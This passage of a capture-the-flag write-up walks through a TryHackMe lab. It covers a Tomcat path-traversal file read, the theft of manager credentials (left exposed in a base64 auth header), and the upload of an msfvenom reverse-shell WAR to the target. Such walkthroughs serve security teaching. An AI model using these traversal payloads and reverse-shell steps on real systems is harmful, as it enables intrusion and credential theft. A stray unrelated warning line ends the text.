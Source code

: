Using the POC above POC, we can attempt to exploit the LFI vulnerability.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Backtrack/Scans/Service]
└─$ curl --path-as-is http://10.10.242.37:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<SNIP>
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```

## Exploitation

The `/etc/passwd` file was included proving that the version run by the target is indeed vulnerable to CVE-2023-39141. Remember that the target runs a Tomcat web server and from the password file we can see the root directory of the Tomcat server. With this information, we can attempt to read the file storing Tomcat users' credentials.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Backtrack/Scans/Service]
└─$ curl --path-as-is http://10.10.242.37:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="<REDACTED>" roles="manager-script"/>

</tomcat-users>
```

The file can be read and we see the user tomcat has the manager-script role in the Tomcat instance. This role gives us access to the tools-friendly plain text interface. We can Tomcat application through this interface. We will first start a listener on our attack host to capture the reverse shell.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Backtrack]
└─$ nc -lvnp 1234                                     
listening on [any] 1234 ...
```

After starting a listener on our attack host, we can use `msfvenom` to generate a malicious `.war` file, deploy it using the `curl`  command, and access the page to execute our reverse shell.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ msfvenom -p  java/shell_reverse_tcp LHOST=10.8.23.19 LPORT=1234 -f war -o shell.war                      
Payload size: 13029 bytes
Final size of war file: 13029 bytes
Saved as: shell.war

┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Backtrack/Misc File]
└─$ curl -v -u tomcat:<REDACTED> --upload-file shell.war  'http://10.10.242.37:8080/manager/text/deploy?path=/myapp&update=true'
*   Trying 10.10.242.37:8080...
* Connected to 10.10.242.37 (10.10.242.37) port 8080
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/myapp&update=true HTTP/1.1
> Host: 10.10.242.37:8080
> Authorization: Basic dG9tY2F0Ok9QeDUyazUzRDhPa1RacHg0ZnI=
> User-Agent: curl/8.8.0
```

[WARNING]: provided hosts list is empty, only localhost is available. Note that